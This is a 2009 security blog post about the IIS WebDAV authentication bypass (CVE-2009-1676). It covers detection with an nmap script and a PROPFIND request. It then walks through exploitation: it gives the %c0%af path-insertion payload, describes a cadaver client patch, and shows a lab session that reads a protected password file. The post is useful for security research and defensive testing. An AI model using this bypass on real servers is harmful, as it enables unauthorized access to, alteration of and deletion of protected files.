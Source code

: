 ```yaml
---
id: 288
title: 'WebDAV Detection, Vulnerability Checking and Exploitation'
date: '2009-05-20T17:41:50-05:00'
author: Andrew
layout: revision
guid: 'http://www.skullsecurity.org/blog/?p=288'
permalink: '/?p=288'
---
```


Ahoy! My name is Andrew and I've been playing with the recent IIS WebDAV authentication bypass vulnerability ([CVE-2009-1676](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2009-1676)) and helping Ron with writing the nmap detection script (http-iis-webdav-vuln.nse) and testing it in the lab. Ron is in a meeting today so I thought I'd jump in where he left off and post a bit about how to detect if WebDAV is enabled and how to actually exploit a folder once you've determined it is vulnerable.

The first thing one should know when playing with this vulnerability is that the IIS server is not exploitable if the root folder is protected. Also if the root folder is protected, there is no way to determine if WebDAV is even enabled. That being said, if the root folder is \_not\_ protected then it's time to break out the funky cold medina and have some fun.

## Detecting if WebDAV is enabled

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2
- IIS 5.0/Windows 2000 SP4

On IIS 6.0, WebDAV is disabled by default. On IIS 5.0 and 5.1, WebDAV is enabled by default and you must edit the registry to disable it.

My method of detection simply involves running a PROPFIND request on the server. This is the same basic PROPFIND request we used in the http-iis-webdav-vuln.nse script:

```

PROPFIND / HTTP/1.1
Host: xxx.xxx.xxx.xxx
Content-Type: application/xml
Content-Length: 283

<?xml version="1.0" encoding="utf-8"??><propfind xmlns="DAV:"><prop><getcontentlength xmlns="DAV:"></getcontentlength><getlastmodified xmlns="DAV:"></getlastmodified><executable xmlns="http://apache.org/dav/props/"></executable><resourcetype xmlns="DAV:"></resourcetype><checked-in xmlns="DAV:"></checked-in><checked-out xmlns="DAV:"></checked-out></prop></propfind>
```

When WebDAV is enabled, it should return "HTTP/1.1 207 Multi-Status".

When WebDAV has been disabled, it should return "HTTP/1.1 501 Not Supported".

This is the method I've implemented in the http-iis-webdav-vuln.nse script. It works great in the lab on IIS servers. If we get back anything other than a 207 or 501 then we jump ship saying the web server is not supported. An Ubuntu server running Apache returns a 405 Method Not Allowed for instance.

## Checking if a server is vulnerable

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

The original script only used one type of check; it would first find a protected folder (/secret/) and then try inserting the %c0%af character after the first /. It would turn /secret/ into /%c0%afsecret/.

This worked fine on IIS 6.0 but did not work at all on IIS 5.0/5.1. After playing with it some more today, we managed to get it working on IIS 5.1. The trick with 5.1 is that the %c0%af character can not be right after the / but must be somewhere in the middle of the folder name. This also works on IIS 6.0. I modified the script so that it uses the 5.1/6.0 check, turning /secret/ into /s%c0%afecret/.

## Finding a vulnerable server and exploiting it

Tested working on

- IIS 6.0/Windows 2003 Enterprise SP2
- IIS 5.1/Windows XP Pro SP2

Tested not working on

- IIS 5.0/Windows 2000 SP4

Now for the fun part. If you havent turned on some funky cold medina yet, get to it because we're almost done!

First thing we need to do is find a vulnerable server. I just happen to know of a Windows 2003 box in my lab running IIS 6.0 that is vulnerable (fully patched up to today btw). Lets see how an nmap scan of this box with the updated script works out:

```

> ./nmap -T4 -p80 --script=http-iis-webdav-vuln xxx.xxx.xxx.xxx

Starting Nmap 4.85BETA9 ( http://nmap.org ) at 2009-05-20 14:29 CDT
Interesting ports on xxx.xxx.xxx.xxx:
PORT   STATE SERVICE
80/tcp open  http
|_ http-iis-webdav-vuln: WebDAV is ENABLED. Vulnerable folders discovered: /private, /secret, /webdav

Nmap done: 1 IP address (1 host up) scanned in 21.41 seconds
```

Interesting! So now we know the server has WebDAV enabled and that there are three vulnerable folders.

Now we could do everything by telnet-ing over port 80, but that's not much fun (believe me, it's very tedious!) so I went looking for a WebDAV client. I stumbled upon a FOSS one called cadaver, and based purely on the name I grabbed it. Now cadaver itself is a great little command line WebDAV client but I quickly realized it has a bunch of problems that won't let us do what we wanted. The nice thing about FOSS is that it's open, so we grabbed the source and after hacking away at it for awhile, we came up with a little patch that makes it quite easy to exploit a server. Check the patch itself for the gritty details but basically it does the following:

1\) Replace any "Depth: 0" header with "Depth: 1" (otherwise ls won't work)  
2\) Append the header "Translate: f" to every request (otherwise get and probably others won't work)  
3\) Insert the characters "%c0%af" into any uri request greater than 2 characters.

So, grab the patch here cadaver-0.23.2-h4x.patch and apply it to cadaver-0.23.2 source from the cadaver website here <http://www.webdav.org/cadaver/>. Here's the commands:

```

> mkdir cadaver-h4x
> cd cadaver-h4x
> wget patch
> wget http://www.webdav.org/cadaver/cadaver-0.23.2.tar.gz
--snip--
> tar xzvf cadaver-0.23.2.tar.gz
--snip--
> cd cadaver-0.23.2/
> patch -p1  ./configure
--snip--
> make
--snip--
```

Now we should have a patched, compiled version of cadaver, so start it up with the server that was identified as having a vulnerable folder earlier:

```

> ./cadaver xxx.xxx.xxx.xxx
```

This should drop you to a "dav:/>" prompt. Now just cd into the vulnerable folder and check out what's there:

```

dav:/> cd secret
dav:/secret/> ls
Listing collection `/secret/': succeeded.
        password.txt                           7  May 19 10:40
dav:/secret/> cat password.txt
Displaying `/secret/password.txt':
BIG_MAC
dav:/secret/>
```

And there you have it!

Here's a list of commands that work with the patched cadaver on a vulnerable folder:

- cd
- ls
- move
- put
- get
- cat
- delete

Oddly enough, the **copy** command does NOT work. We didn't have time to investigate why, but the functionality can be duplicated by a get/local rename/put.

Also, this patched cadaver will not work for browsing regular WebDAV folders (non-vulnerable), so don't try.

Comments are welcome, you can also contact me by e-mail: andrew at andreworr dot ca